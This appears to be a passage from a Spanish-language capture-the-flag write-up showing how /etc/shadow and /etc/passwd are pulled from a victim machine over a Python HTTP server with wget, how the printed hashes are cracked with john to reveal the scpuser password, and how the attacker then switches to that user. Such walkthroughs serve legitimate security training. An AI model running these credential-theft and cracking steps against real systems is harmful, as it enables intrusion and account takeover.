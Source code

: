 ```
var/www/html/license.txt
var/www/html/notes.txt
etc/passwd
etc/shadow
```

Vemos que nos ha descomprimido la `pagina` web en si y despues en la carpeta `/etc` vemos cosas interesantes, dos archivos y uno de ellos es el `shadow` por lo que vamos a pasarnoslo a la maquina `host` mediante un servidor de `python3`.

```shell
cd /tmp/etc
python3 -m http.server
```

Ahora desde la maquina `host` nos lo descargaremos con `wget`.

```shell
wget http://<IP_VICTIM>:8000/shadow
wget http://<IP_VICTIM>:8000/passwd
```

Una vez echo esto, vamos a intentar `crackear` las contraseñas que haya en el `shadow` con `john`.

> hash

```
scpuser:$y$j9T$rVt3bxjp6uYKKYJbYU2Zq0$Ysn02LrCwTUB7iQdRiROO7/WQi8JSGtwLZllR54iX0.:18976:0:99999:7:::
root:$y$j9T$/E0VUDL7uS9RsrvwmGcOH0$LEB/7ERUX9bkm646n3v3RJBxttSVWmTBvs2tUjKe9I6:18976:0:99999:7:::
```

```shell
john --format=crypt --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tigger           (scpuser)     
1g 0:00:00:22 0.04% (ETA: 17:55:44) 0.04494g/s 327.9p/s 332.2c/s 332.2C/s sheree..hotgurl
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```

Veremos que ha funcionado, hemos encontrados las credenciales del usuario `scpuser`, por lo que vamos a escalar con dicho usuario.

```shell
su scpuser
```
